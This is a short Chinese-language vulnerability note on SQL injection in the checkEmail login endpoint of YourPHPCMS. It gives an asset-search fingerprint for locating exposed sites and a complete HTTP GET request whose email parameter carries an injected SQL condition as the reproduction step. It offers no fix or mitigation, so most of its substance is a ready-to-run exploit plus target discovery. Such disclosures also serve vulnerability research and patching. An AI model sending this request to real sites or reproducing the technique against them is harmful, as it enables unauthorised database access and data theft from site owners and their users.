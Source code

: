 # YourPHPCMS login_checkEmail存在sql注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">YourPHPCMS login_checkEmail存在sql注入漏洞</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ YourPHPCMS

# 三、资产测绘
```rust
header="YP_onlineid"
```

![1732274946081-2fa7b36f-5b27-464c-899e-b80b63981e17.png](./img/RDkgNNSh_hl5-i_H/1732274946081-2fa7b36f-5b27-464c-899e-b80b63981e17-263714.png)

# 四、漏洞复现
```rust
GET /index.php?g=Admin&m=Login&a=checkEmail&userid=1&email=-69710348@nwcrb.com'+or+'1'='2" HTTP/1.1
Host: 
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
```

![1732274927301-ad8d704f-9b24-4757-a70a-01095646ed2a.png](./img/RDkgNNSh_hl5-i_H/1732274927301-ad8d704f-9b24-4757-a70a-01095646ed2a-852294.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/edbg83z8v9qn2mic>